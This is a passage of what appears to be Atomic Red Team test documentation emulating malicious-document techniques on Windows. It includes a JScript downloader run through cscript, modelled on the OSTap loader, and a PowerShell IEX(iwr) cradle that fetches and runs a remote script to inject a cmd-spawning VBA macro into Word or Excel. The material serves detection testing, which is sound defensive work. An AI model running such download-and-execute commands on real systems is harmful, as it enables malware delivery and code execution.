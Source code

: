   Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"


Atomic Test #2 - OSTap Payload Download
Uses cscript //E:jscript to download a file

Supported Platforms: Windows

auto_generated_guid: 3f3af983-118a-4fa1-85d3-ba4daa739d80

Inputs:
Name	Description	Type	Default Value
script_file	File to execute jscript code from	path	%TEMP%\OSTapGet.js
file_url	URL to retrieve file from	url	https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt
Attack Commands: Run with command_prompt!
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile('ostapout.txt', 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
Cleanup Commands:
del #{script_file} /F /Q >nul 2>&1


Atomic Test #3 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders. Upon execution, CMD will be launched. Execution is handled by Invoke-MalDoc to load and execute VBA code into Excel or Word documents.

Supported Platforms: Windows

auto_generated_guid: 0330a5d2-a45a-4272-a9ee-e364411c4b18

Inputs:
Name	Description	Type	Default Value
ms_product	Maldoc application Word or Excel	string	Word
Attack Commands: Run with powershell!
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Dependencies: Run with powershell!
Description: Microsoft #{ms_product} must be installed
Check Prereq Commands:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
